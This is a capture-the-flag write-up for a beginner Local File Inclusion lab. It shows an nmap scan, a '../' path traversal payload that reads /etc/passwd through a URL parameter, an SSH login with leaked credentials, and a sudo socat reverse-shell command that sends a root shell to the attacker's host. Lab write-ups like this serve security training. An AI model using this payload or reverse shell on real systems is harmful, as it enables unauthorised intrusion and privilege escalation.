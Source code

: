 **A beginner level LFI challenge**

### **TASK 1: Deploy**

This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.

### **TASK 2:Root It**

If you've deployed the VM then try to find the LFI parameters and get the user and root flag.

### **Enumeration**

nmap \-sV \-p\- \-vv <machine\-ip\>

`Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-05 11:19 IST  
Nmap scan report for 10.10.161.174  
Host is up (0.17s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)  
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)  
|\_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)  
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)  
|\_http-title: My blog  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 43.52 seconds`


![[Pasted image 20210605114036.png]]

Looks like a pretty standard blog. We see something interesting when we click on one of the `View details >>` buttons though (any of them):

![[Pasted image 20210605114122.png]]

Notice in the URL that there’s a parameter called `name`. This indicates that the website is including information from elsewhere, opening us up to a _Local File Inclusion_ attack.

To put it another way. The page we’re looking at is actually empty; however, it’s including content from another page. In the example, that other page is `rfiattack`, however, this will depend on which link you clicked.

Local File Inclusions are when that input isn’t properly sanitised, allowing us to manipulate the link to open other files. Let’s try that now with the `/etc/passwd` file, which will give us a list of user accounts on the machine.

We’ll do this by changing the bit at the end of the URL, after the equals (`=`) sign. However, we can’t just change it to be `/etc/passwd`, because that’s only going to look in the _current_ directory — which obviously won’t contain the file we’re looking for. Instead we’re going to need to go back up to the start of the file system, then head from there.

In the end, we’ll have a payload that looks something like this `../../../../../../etc/passwd`. Notice the numerous occurrences of `../`, which are used to go up a directory — eventually leading us back to the root directory of the file system. The number you use here doesn’t matter, so long as there are enough to guarantee that you’ll be back at the start.

Let’s try adding that now:
`http://<Machine-IP>/article?name=../../../../../../etc/passwd`

![[Pasted image 20210605114331.png]]

Contents of `/etc/passwd`

_(Notice that I also used `Ctrl + U` to switch into view-source mode. This gives you a much nicer output)_

Hey, look, there’s a username and password inside a comment in there!

### Exploitation:

**user flag**
*HINT:Try reading linux passwd file.*

We can use the username and password we found to login over SSH as `falconfeast`:

![[Pasted image 20210605113735.png]]

### Privilege Escalation:


We start, as always, with `sudo -l` to check our current privileges. Let’s see if we’ve got access to anything that lets us upgrade here:

![[Pasted image 20210605114947.png]]

Well ain’t that interesting. Nice easy privesc here too — we’ve got sudo access for `socat`, which is essentially a more powerful (if more complex) version of Netcat. In other words, we can use socat to send ourselves a root shell. First, on your own attacking computer, run this command:

```
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

This will setup a socat _listener_ on your own machine.

On the remote machine, use this command:

```
sudo socat tcp-connect:<your-ip-address>:1234 exec:bash,pty,stderr,setsid,sigint,sane
```


![[Pasted image 20210605120615.png]]


### Method 2:

There’s an easier way to complete this challenge — purely through LFI. It turns out that the webserver we exploited at the beginning of the challenge is running with root privileges; which means we’ve already got access to _everything_.  
  
Including both flags:

**User Flag**

![[Pasted image 20210605115211.png]]

**Root Flag**

![[Pasted image 20210605115704.png]]

